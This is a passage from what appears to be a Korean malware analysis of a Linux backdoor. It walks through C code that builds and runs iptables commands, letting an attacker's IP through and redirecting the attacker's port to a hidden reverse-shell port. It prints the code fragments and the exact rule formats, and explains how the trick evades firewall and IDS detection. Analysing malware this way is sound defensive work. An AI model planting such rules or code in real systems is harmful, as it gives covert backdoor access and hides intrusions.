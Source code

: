 4. **공격자의 요청을 수신하기 위한 환경 구성**

    ```c
    snprintf(cmd, sizeof(cmd), inputfmt, ip);
    snprintf(dcmd, sizeof(dcmd), dinputfmt, ip);
    system(cmd);
    sleep(1);
    ```

    - 512 크기의 char 배열 `cmd`와 `dcmd`에 `inputfmt`, `dinputfmt`를 저장하고, 포맷스트링 변수에 `ip` 전달한다.
    - `inputfmt` - `cmd`

        ```
        /sbin/iptables -I INPUT -p tcp -s %s -j ACCEPT
        ```

        - 공격자의 IP 주소(`%s`)에서 들어오는 TCP 패킷 허용 규칙을 INPUT 체인 삽입한다.
    - `dinputfmt` - `dcmd`

        ```
        /sbin/iptables -D INPUT -p tcp -s %s -j ACCEPT
        ```

        - 공격자의 IP 주소(`%s` - `ip` 변수)에서 들어오는 TCP 패킷 허용 규칙을 INPUT 체인 삭제한다.
        - 연결 종료 후, 앞에서 추가한 INPUT 규칙을 제거하기 위한 규칙이다.
    - `system()`을 호출하여 iptables를 이용하여 공격자의 IP 주소로 들어오는 TCP 패킷을 허용하는 방화벽 규칙을 구성하고, `dcmd` 변수에 허용했던 규칙을 삭제하는 명령 문자열을 저장하여, 이후 `shell` 함수 내에서 수행하도록 인자를 전달한다.

    ```c
    memset(cmd, 0, sizeof(cmd));
    snprintf(cmd, sizeof(cmd), cmdfmt, ip, fromport, toport);
    snprintf(rcmd, sizeof(rcmd), rcmdfmt, ip, fromport, toport);
    system(cmd);
    sleep(1);
    ```

    - 512 크기의 char 배열 `cmd`와 `rcmd`에 `cmdfmt`, `rcmdfmt`를 저장하고, 포맷스트링 변수에 `ip`, `fromport`, `toport` 전달한다.
    - `cmdfmt` - `cmd`

        ```
        /sbin/iptables -t nat -A PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
        ```

        - 공격자가 연결 요청하는 포트(첫 번째 `%d` - `fromport` 변수)를 로컬에서 임의로 선택한 포트(두 번째 `%d` - `toport` 변수)로 리다이렉트 한다.
    - `rcmdfmt` - `rcmd`

        ```
        /sbin/iptables -t nat -D PREROUTING -p tcp -s %s --dport %d -j REDIRECT --to-ports %d
        ```

        - 앞에서 설정한 리다이렉션 NAT 규칙을 제거하기 위한 명령이다.
    - `system()`을  호출하여 iptables를 이용하여 공격자가 연결을 요청한 포트를 앞에서 수행한 `b` 함수에서 임의로 선택하고 연결한 포트로 내부에서 리다이렉션 하도록 설정한다. 이런 방식은 **reverse shell 포트가 외부에 직접 노출되지 않아 방화벽/IDS/IPS 탐지를 우회할 수 있게 된다.**

    > **iptables**
    : 리눅스 시스템에서 방화벽을 설정하는 도구로서, 네트워크 패킷을 필터링하거나 변경하는 등의 기능을 수행한다. 특정 조건을 가지고 있는 패킷에 대해 허용(ACCEPT)와 차단(DROP) 등을 지정할 수 있으며, 특정 조건 등을 통해 다양한 방식의 패킷 필터링과 처리 방식을 지원한다.
    >
